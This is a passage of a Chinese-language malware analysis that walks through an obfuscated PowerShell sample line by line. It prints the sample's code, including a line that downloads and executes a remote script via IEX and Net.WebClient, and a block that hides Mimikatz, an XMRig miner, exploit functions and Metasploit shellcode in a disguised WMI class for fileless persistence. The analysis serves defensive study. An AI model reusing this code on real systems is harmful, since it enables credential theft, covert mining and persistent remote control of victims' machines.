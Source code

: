 ```powershell linenums="77"
$nic=$nic+(':'+'443')
if ((geT`-WmI`ObjECt Win32_OperatingSystem).osarchitecture.contains('64')){
    i`EX(NE`W`-oBJE`CT Net.WebClient).DownloadString("http://$nic/w/antivirus.ps1")
    return
}
```

82-84 行将原始样本最外层的变量赋值给新变量：

- `$mimi`: `$miiiiii`, Mimikatz
- `$mon`: `$mmmmmmm`, XMRig
- `$funs`: `$fffffff`, 漏洞利用函数
- `$sc`: `$ssssssss`, Metasploit ShellCode

```powershell linenums="82"
$mimi = $miiiiii
$mon = $mmmmmmm
$funs = $fffffff
$sc = $ssssssss
```

86-112 行准备 WMI 事件订阅所需的类和属性：

- `$StaticClass`: 名为 `Window_Core_Flush_Cach` 的 WMI 管理类，属性如下：
    - `mimi`, `mon`, `funs`, `sc`: 前面定义的恶意组件
    - `ver`: 版本号，`"1.3"`
    - `flag`: 上次执行时间，`0`
- `$runingFlag`: 记录 WMI 管理类创建操作是否成功
- `$filterName`: WMI 事件过滤器名称，`Systems Manage Filter`
- `$consumerName`: WMI 事件消费者名称，`Systems Manage Consumer`

```powershell linenums="86"
$runingFlag = $False
try{
    $StaticClass = N`E`w-obJEcT Management.ManagementClass((('ro'+'ot{0}de'+'f'+'a'+'ult')-F  [cHAR]92), $null,$null)
    $StaticClass.Name = ('Wind'+'ow_C'+'or'+'e_'+'Flush'+'_C'+'ach')
    $StaticClass.Put() | out-N`U`Ll
    $StaticClass.Properties.Add(('m'+'imi') , $mimi)
    $StaticClass.Put() | O`UT`-NUlL
    $StaticClass.Properties.Add(('m'+'on') , $mon)
    $StaticClass.Put() | ou`T-n`ULL
    $StaticClass.Properties.Add(('fu'+'ns') , $funs)
    $StaticClass.Put() | O`UT`-NULl
    $StaticClass.Properties.Add('sc' , $sc)
    $StaticClass.Put() | o`Ut`-NuLL
    $StaticClass.Properties.Add(('ips'+'u') ," ")
    $StaticClass.Put() | OUt-n`ULl
    $StaticClass.Properties.Add(('i'+'17') ," ")
    $StaticClass.Put() | OUt-N`UlL
    $StaticClass.Properties.Add(('v'+'er'), ('1.'+'3'))
    $StaticClass.Put() | o`Ut-N`Ull
    $StaticClass.Properties.Add(('fl'+'ag'), ('0'))
    $StaticClass.Put() | o`Ut-N`Ull
    $runingFlag = $True
} catch {
    $runingFlag = $False
}
$filterName = ('Sy'+'stem'+'s Man'+'age '+'Filt'+'er')
$consumerName = ('System'+'s Man'+'age C'+'on'+'sumer')
```
